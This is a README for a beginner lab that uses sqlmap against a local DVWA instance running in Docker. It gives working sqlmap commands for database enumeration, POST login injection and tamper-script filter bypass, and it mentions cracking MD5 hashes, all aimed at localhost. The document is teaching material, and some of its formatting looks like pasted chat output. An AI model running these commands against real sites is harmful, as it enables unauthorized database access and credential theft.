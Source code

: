 # DVWA SQL Injection Lab

This repository provides a beginner-friendly walkthrough of setting up and exploiting **DVWA (Damn Vulnerable Web App)** using **SQLMap** for SQL injection testing.

## 🔧 Setup

### 1. Clone the Repository:
```bash
git clone https://github.com/abdmusleh/dvwa-sqlmap-lab.git
cd dvwa-sqlmap-lab
2. Start the Lab with Docker:
bash
Copy
Edit
docker-compose up -d
3. Access DVWA:
Open your browser and navigate to http://localhost:8080 to access DVWA.

🧠 What You’ll Learn
How to perform SQL injections using sqlmap.

Cracking MD5 hashes retrieved from the database.

Bypassing authentication by exploiting SQL vulnerabilities.

How to use sqlmap tamper scripts and advanced options.

🚀 Quick Start
Clone the repository and start the environment with Docker:

bash
Copy
Edit
git clone https://github.com/abdmusleh/dvwa-sqlmap-lab.git
cd dvwa-sqlmap-lab
docker-compose up -d
Log in to DVWA as different users using the cracked passwords (for example, admin:password).

Run sqlmap to test for SQL injection:

bash
Copy
Edit
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=your-session-id" --batch --banner
Retrieve database details:

bash
Copy
Edit
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=your-session-id" --batch --dbs
Crack MD5 hashes using tools like John the Ripper or online MD5 hash crack sites.

📂 Folder Structure
docker-compose.yml: The file to automatically set up DVWA and MySQL in Docker.

README.md: This file with all instructions.

exploits/: A folder for custom payloads or scripts.

🎯 Further Exploration
Explore advanced SQL injection attacks and tamper scripts.

Experiment with different security levels in DVWA.

Learn about other vulnerabilities such as XSS, CSRF, etc., in DVWA.

⚠️ Important: Responsible Use
This lab environment is intended for educational purposes only. Never use these techniques on unauthorized systems.

yaml
Copy
Edit

---

### **Optional Additions:**
If you want to add an additional file with `sqlmap` examples, you can create a `sqlmap_payloads.md` file:

```markdown
# SQLMap Payloads

## Basic GET Request

To test for SQL Injection vulnerabilities, use the following SQLMap command for GET requests:

```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=your-session-id" --batch --dbs
POST Request (Login Example)
For POST requests, use the --data option:

bash
Copy
Edit
sqlmap -u "http://localhost/DVWA/index.php" --data="username=admin&password=123456&login=login" --cookie="PHPSESSID=your-session-id" --batch --risk=3 --level=5 --dbs
Using Tamper Scripts
You can also use tamper scripts to bypass security filters:

bash
Copy
Edit
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=your-session-id" --tamper=space2comment --batch --dbs
yaml
Copy
Edit

---

### **Steps to Save and Commit**:
1. **Save your README** and `sqlmap_payloads.md` file after editing.
2. **Commit the changes**:
   ```bash
   git add README.md
   git add sqlmap_payloads.md  # If you created this additional file
   git commit -m "Added detailed instructions and SQLMap payloads"
